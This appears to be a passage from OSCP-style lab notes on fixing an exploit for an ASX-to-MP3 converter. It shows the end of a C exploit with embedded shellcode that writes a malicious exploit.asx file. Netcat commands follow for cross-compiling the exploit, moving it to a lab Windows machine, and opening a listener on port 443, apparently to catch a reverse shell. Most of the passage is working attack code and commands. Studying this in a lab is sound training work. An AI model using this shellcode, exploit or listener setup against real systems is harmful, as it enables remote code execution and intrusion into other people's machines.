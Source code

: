 ```c
                        "\xd6\x65\x55\x8a\xbf\x3e\xc2\x33\x9a\xb4\x73\xbb\x30\xb1\xb4\x37\xb7\x46\x7a\xb0\xb2\x54\xeb\x30\x89"
                        "\x06\xba\x4f\x27\x2e\x20\xdd\xac\xae\x2f\xfe\x7a\xf9\x78\x30\x73\x6f\x95\x6b\x2d\x8d\x64\xed\x16\x15"
                        "\xb3\xce\x99\x94\x36\x6a\xbe\x86\x8e\x73\xfa\xf2\x5e\x22\x54\xac\x18\x9c\x16\x06\xf3\x73\xf1\xce\x82"
                        "\xbf\xc2\x88\x8a\x95\xb4\x74\x3a\x40\x81\x8b\xf3\x04\x05\xf4\xe9\xb4\xea\x2f\xaa\xc5\xa0\x6d\x9b\x4d"
                        "\x6d\xe4\x99\x13\x8e\xd3\xde\x2d\x0d\xd1\x9e\xc9\x0d\x90\x9b\x96\x89\x49\xd6\x87\x7f\x6d\x45\xa7\x55";

    char *overwrite_offset = malloc(625);
    memcpy(overwrite_offset, pattern, strlen(pattern));
    memset(overwrite_offset + _msize(overwrite_offset) - 1, 0x00, 1);

    int buffer_size = _msize(overwrite_offset);
    char *buffer = malloc(buffer_size);

    memcpy(buffer, overwrite_offset, _msize(overwrite_offset));
    memset(buffer + buffer_size - 1, 0x00, 1);

    FILE * fp;
    fp = fopen("exploit.asx","w");
    fprintf(fp, buffer); 
    fclose(fp);

    return 0;

}
```

Cross-compile the exploit
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/asx_mp3_converter$ i686-w64-mingw32-gcc 7_add_shellcode_yes_nops.c -o 7_add_shellcode_yes_nops.exe
```

Start a netcat listener on the Windows machine that receives the .exe upon connection.
```plaintext
C:\Users\Administrator\Desktop>nc -lnvp 4444 > 7_add_shellcode_yes_nops.exe                                             listening on [any] 4444 ... 
```

Start a netcat client on Kali that sends the .exe upon connection, then break the connection once it has been transferred.
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/asx_mp3_converter$ sudo nc -nv 192.168.214.10 4444 < 7_add_shellcode_yes_nops.exe 
[sudo] password for kali: 
(UNKNOWN) [192.168.214.10] 4444 (?) open
```

Start a netcat listener on Kali
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/11_windowsBufferOverflow/vuln2$ sudo nc -lnvp 443
[sudo] password for kali: 
listening on [any] 443 ...
```
